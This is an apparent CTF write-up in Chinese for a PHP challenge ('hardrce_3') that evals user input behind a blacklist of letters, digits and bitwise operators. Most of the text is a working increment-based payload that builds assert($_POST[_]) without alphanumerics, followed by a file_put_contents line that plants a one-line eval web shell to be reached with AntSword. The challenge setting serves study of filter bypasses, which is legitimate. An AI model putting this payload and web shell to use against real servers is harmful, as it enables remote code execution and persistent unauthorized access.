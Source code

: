 ```php
<?php
header("Content-Type:text/html;charset=utf-8");
error_reporting(0);
highlight_file(__FILE__);
if (isset($_GET['wllm'])) {
    $wllm = $_GET['wllm'];
    $blacklist = [' ', '\^', '\~', '\|'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $wllm)) {
            die("小伙子只会异或和取反？不好意思哦LTLT说不能用！！");
        }
    }
    if (preg_match('/[a-zA-Z0-9]/is', $wllm)) {
        die("Ra'sAlGhul说用字母数字是没有灵魂的！");
    }
    echo "NoVic4说：不错哦小伙子，可你能拿到flag吗？";
    eval($wllm);
} else {
    echo "蔡总说：注意审题！！！";
}
```

无字母数字 RCE
而且此题不能 异或，取反，或
可以自增
#### 自增


```url
//测试发现7.0.12以上版本不可使用
//使用时需要url编码下
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
固定格式 构造出来的 assert($_POST[_]);
然后post传入   _=phpinfo();
```

然后利用 file_put_contents() 写入马，蚁剑连接查看
```php
_=file_put_contents("1.php","<?php @eval($_POST['shell']); ?>");
\@
```

参考
[无字母数字绕过正则表达式总结（含上传临时文件、异或、或、取反、自增脚本）_无数字正则匹配绕过取反脚本_yu22x的博客-CSDN博客](https://blog.csdn.net/miuzzx/article/details/109143413)

[NSS日刷-[SWPUCTF 2021 新生赛]hardrce_3-open_basedir绕过 - Aninock - 博客园 (cnblogs.com)](https://www.cnblogs.com/aninock/p/16461151.html)
